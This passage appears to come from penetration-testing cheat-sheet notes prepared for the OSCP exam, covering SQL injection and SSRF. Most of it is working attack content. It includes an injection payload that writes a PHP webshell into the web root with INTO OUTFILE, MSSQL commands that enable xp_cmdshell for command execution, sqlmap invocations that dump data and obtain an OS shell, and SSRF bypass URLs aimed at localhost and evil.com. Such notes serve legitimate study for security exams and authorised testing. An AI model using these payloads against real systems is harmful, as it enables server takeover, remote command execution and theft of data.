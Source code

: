 #### Writing a webshell

```shell
...&limit=100;SELECT SLEEP(10)#...
...&limit=100;SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php"#...
```

### Manual Code Execution

```shell
# activate cmd shell in MSSQL
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';
# in newer versions
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

### Automated Code Execution

!!! warning ""
    Not allowed on the OSCP exam

```shell
sqlmap -u http://<ip>/blindsqli.php?user=1 -p user
sqlmap -u http://<ip>/blindsqli.php?user=1 -p user --dump
# using a POST request, get a shell
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"
```

## SSRF (Server-Side Request Forgery)

> [PayloadsAllTheThings > SSRF](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Request%20Forgery/)

> <https://app.requestbin.net>

- Identify features that fetch remote resources (e.g., URL preview, PDF generation, image fetchers) and capture interactions with tools like Burp Collaborator, requestbin.net, canarytokens.org/generate, etc.
- Test with internal IPs and localhost:

    - `http://127.0.0.1`
    - `http://localhost`
    - `http://[::1]`

- Try different URL encodings and bypasses:

    - `http://127.0.0.1%2Fetc%2Fpasswd`
    - `http://127.0.0.1:80`
    - `http://127.0.0.1@evil.com`
    - `http://localhost#@evil.com`
    - `http://0x7f000001`
    - `http://2130706433`

